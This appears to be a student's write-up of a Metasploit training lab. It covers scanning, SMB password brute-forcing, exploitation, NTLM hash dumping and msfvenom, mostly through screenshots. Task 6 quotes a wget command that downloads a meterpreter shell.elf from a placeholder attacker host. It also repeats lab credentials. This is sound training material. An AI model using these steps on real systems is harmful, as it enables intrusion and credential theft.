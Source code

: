 ## Task-2: Scanning
- Search portscan: to search port scanning modules  available

![image](https://github.com/Akhilkj123/Cyber-Security/assets/65653010/9b89229e-f386-43c8-9784-c36ba6f40311)

- To show the options

![image](https://github.com/Akhilkj123/Cyber-Security/assets/65653010/4c2719d4-ebbc-4e37-8fdd-1447f1ba2fa0)

- Doing nmap

![image](https://github.com/Akhilkj123/Cyber-Security/assets/65653010/ad1c04d4-132f-4128-810b-acf19f18adc2)

- To find the services running in UDP

![image](https://github.com/Akhilkj123/Cyber-Security/assets/65653010/02b31580-d3c2-4434-9acd-a66a27fc6cd3)

- To find the smb scans

![image](https://github.com/Akhilkj123/Cyber-Security/assets/65653010/c752b698-0948-4e07-a9bd-59873b121c07)

Answer the questions below

a) How many ports are open on the target system?
- First we conduct a search portscan

![image](https://github.com/Akhilkj123/Cyber-Security/assets/65653010/32926ee5-ec5b-41cc-a25f-5086ce386d28)

- Next we go to the auxiliary portscan location and run a scan to it which shows the open ports, so we get 5 ports.

![image](https://github.com/Akhilkj123/Cyber-Security/assets/65653010/7d0c26e5-b9f3-4ed6-87ae-8a36ef962f26)

b) Using the relevant scanner, what NetBIOS name can you see?
- First we give a search netbios

![image](https://github.com/Akhilkj123/Cyber-Security/assets/65653010/ca6f0d68-3fc3-4d98-bdf8-3e97bdf8c19b)

- Then we add the RHOSTS to it and then go to the netbios/nbname group and then press run

![image](https://github.com/Akhilkj123/Cyber-Security/assets/65653010/b46714f6-50d9-4b99-b375-823285aead5c)

c) What is running on port 8000?
- We entered search http_version

![image](https://github.com/Akhilkj123/Cyber-Security/assets/65653010/7a5edde1-96bb-49fd-96e8-3150c01a4649)

- We then added the RHOSTS and set the RPORT 8000 and run the file

![image](https://github.com/Akhilkj123/Cyber-Security/assets/65653010/2fe95214-b57e-40c9-85c2-75e2100862c8)

![image](https://github.com/Akhilkj123/Cyber-Security/assets/65653010/399b4111-422e-44b1-a9e6-2b01b169964b)

d) What is the "penny" user's SMB password? Use the wordlist mentioned in the previous task.
- First we go to sbi_login file

![image](https://github.com/Akhilkj123/Cyber-Security/assets/65653010/19140099-c7f7-4506-9ed6-7d37565f5828)

- set DB_ALL_PASS true and we set USERPASSFILE_FILE 'file location'

![image](https://github.com/Akhilkj123/Cyber-Security/assets/65653010/a00f0d23-19ad-41ad-b4e3-1c52e63b1ae7)

![image](https://github.com/Akhilkj123/Cyber-Security/assets/65653010/eb3882de-e695-4817-b33a-a320b956b3de)

- and run the exploit

![image](https://github.com/Akhilkj123/Cyber-Security/assets/65653010/a3528ca4-3924-4181-a798-8de6a2f44799)

## Task - 3: The Metasploit Database
- The postresql systemctl is running

![image](https://github.com/Akhilkj123/Cyber-Security/assets/65653010/a616bd5e-b80e-4596-9925-b8780170d25f)

![image](https://github.com/Akhilkj123/Cyber-Security/assets/65653010/bc5a6e44-9969-499a-936a-1a6ea17a682b)

- Now we add a workspace

![image](https://github.com/Akhilkj123/Cyber-Security/assets/65653010/faf654b0-3a5a-4639-843d-a6fcaadbd861)

- Get information of the hosts

![image](https://github.com/Akhilkj123/Cyber-Security/assets/65653010/e316c7e7-c203-4718-a3c0-a2f0c0cea4c1)

- The services command used with the -S parameter will allow you to search for specific services in the environment.

![image](https://github.com/Akhilkj123/Cyber-Security/assets/65653010/52cea921-3696-48d7-87d1-a3bacee8c9b1)

## Task - 4: Vulnerability Scanning

- In the case of VNC, there are several scanner modules that we can use.

![image](https://github.com/Akhilkj123/Cyber-Security/assets/65653010/c3f70ef7-9536-472d-9d96-f06f81841a9c)

a) Who wrote the module that allows us to check SMTP servers for open relay?
- Campbell Murray



## Task - 5: Exploitation

a) Exploit one of the critical vulnerabilities on the target VM
-  A reverse payload will at least require you to set the LHOST option.

![image](https://github.com/Akhilkj123/Cyber-Security/assets/65653010/7f1b017f-b4d3-416e-9925-2d830ff4eff8)

- Thus found a vulnerable file

b) What is the content of the flag.txt file?
- First we enter into the location of

![image](https://github.com/Akhilkj123/Cyber-Security/assets/65653010/9a3639b6-d4e3-4d3e-9d8c-dedac176f211)

c) What is the NTLM hash of the password of the user "pirate"?
- Now we perform hash dump to get the hash of the password

![image](https://github.com/Akhilkj123/Cyber-Security/assets/65653010/4b34baa2-0c3b-4844-9135-24e93959a4d0)

## Task - 6: Msfvenom
- Msfvenom will allow you to access all payloads available in the  Metasploit framework.

![image](https://github.com/Akhilkj123/Cyber-Security/assets/65653010/cbda57c0-192b-4601-bb57-6f32b4a63ffd)

![image](https://github.com/Akhilkj123/Cyber-Security/assets/65653010/cb42af05-6644-4216-8c16-924a812f4cd7)

a) Launch the VM attached to this task. The username is murphy, and the password is 1q2w3e4r. You can connect via SSH or launch this machine in the browser. Once on the terminal, type "sudo su" to get a root shell, this will make things easier.

- Now we login to the remote system using username murphy and password.

![image](https://github.com/Akhilkj123/Cyber-Security/assets/65653010/756bb519-2120-499a-8548-ef3445db237a)

b) Create a meterpreter payload in the .elf format (on the AttackBox, or your attacking machine of choice).

![image](https://github.com/Akhilkj123/Cyber-Security/assets/65653010/6c5464de-22b6-4be5-95ea-179ce61ee6db)

c) Transfer it to the target machine (you can start a Python web server on your attacking machine with the python3 -m http.server 9000 command and use wget http://ATTACKING_10.10.6.84:9000/shell.elf to download it to the target machine).
 
  ![image](https://github.com/Akhilkj123/Cyber-Security/assets/65653010/c6e3c4ee-9c44-4e35-ae59-ec598197610d)










